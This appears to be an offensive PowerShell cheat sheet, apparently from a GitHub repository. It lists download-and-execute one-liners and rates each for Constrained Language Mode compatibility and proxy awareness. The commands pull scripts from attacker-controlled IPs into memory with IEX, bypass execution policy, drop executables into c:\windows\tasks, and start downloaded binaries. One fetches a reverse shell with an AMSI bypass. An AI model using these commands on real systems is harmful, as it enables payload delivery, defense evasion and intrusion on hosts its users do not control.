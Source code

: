 ## Download/Execute in Memory

### Load Powershell Script directly into memory: 
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]   

```
$str = "(New-Object System.Net.WebClient).DownloadString('http://192.168.1.121/getuser.ps1') | IEX"
Invoke-Expression $str
```


### Load Powershell Script directly into memory: 
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.22.55/run.txt'))
```


## Download Files

###  System.Net.Http Download Files
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
Add-Type -AssemblyName System.Net.Http;$a=(New-Object System.Net.Http.HttpClient).getasync('http://192.168.22.55/issue.hta'); $a.wait();$o=[System.IO.FileStream]::new('c:\windows\tasks\test.txt', [System.IO.FileMode]::Create, [System.IO.FileAccess]::Write);$a.Result.Content.CopyToAsync($o).Wait();$o.close()
```

### System.net.WebClient DownloadFile
Works in CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
(new-object System.Net.WebClient).downloadFile('http://192.168.22.55/test.txt','c:\windows\tasks\test.txt')
```


### Invoke-RestMethod
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]
```
Invoke-RestMethod -Uri http://192.168.22.55/tete.exe -OutFile c:\windows\tasks\test.txt
Start-Process -FilePath "Purecsrunner.exe"
```

### Invoke-WebRequest
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
Invoke-WebRequest -Uri 'http://192.168.22.55/Purecsrunner.exe' -OutFile 'Purecsrunner.exe'
Start-Process -FilePath "Purecsrunner.exe"
```

### Powershell IWR
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
```

### Powershell-Wget
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell wget http://192.168.22.55/psscripts/PlainRS-wAmsiByp/rshell-am.txt -outfile c:\windows\tasks\test.exe
```

### Start-bitstransfer
Works in CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell -c "start-bitstransfer -source http://192.168.22.55/some.exe c:\windows\tasks\some.exe"
```
